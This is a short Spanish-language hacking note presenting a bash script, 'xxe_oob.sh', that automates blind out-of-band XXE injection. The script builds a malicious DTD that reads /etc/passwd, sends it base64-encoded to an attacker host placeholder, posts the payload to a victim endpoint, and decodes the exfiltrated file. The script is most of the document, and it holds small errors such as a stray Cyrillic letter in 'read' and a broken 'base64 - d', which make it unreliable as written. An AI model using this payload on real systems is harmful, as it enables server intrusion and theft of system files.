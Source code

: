 -------------------
- Tags: #herramientas #bash #hacking #scripting #XEE 
--------------
**xxe_oob.sh** es una herramienta en **bash** para automatizar el proceso de [[XXE (XML External Entity Injection)]] de manera a ciegas. Se basa en la el uso de un **DTD** y solicitudes al servicio web.

```bash
#!/bin/bash

echo -ne "\n[+] Introduce el archivo a leer: " && read -г myFilename

malicious_dtd="""
<!ENTITY % file SYSTEM \"php://filter/convert.base64-encode/resource=/etc/passwd\"> 
<!ENTITY % eval \"<!ENTITY &#x25; exfil SYSTEM 'http://<IP_ATACANTE>/?file=%file;'>\"> 
%eval; 
%exfil;"""

#Creamos el archivo DTD
echo $malicious_dtd > malicious.dtd

#Abrimos el servidor HTTP y guardamos el output en response
python3 -m http.server 80 &>response &
PID=$!

sleep 1; echo

curl -s -X POST "http://<IP_VÍCTIMA>/process.php" -d '<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://<IP_ATACANTE>/malicious.dtd"> %xxe;]>
<root><name>test</name><tel>123456789</tel><email>test@test</email><password>test123</password></root>' &>/dev/null
#La tercera linea es la petición base hacia el servidor en raw

#Para quedarnos con la parte que nos interesa de la solicitud hacia el servidor (el archivo encodeado)
cat response | grep -oP "/?file=\K[^.*\s]+" | base64 - d

#Cerramos el servicio HTTP
kill -9 $PID
wait $PID 2>/dev/null

rm response 2>/dev/null

```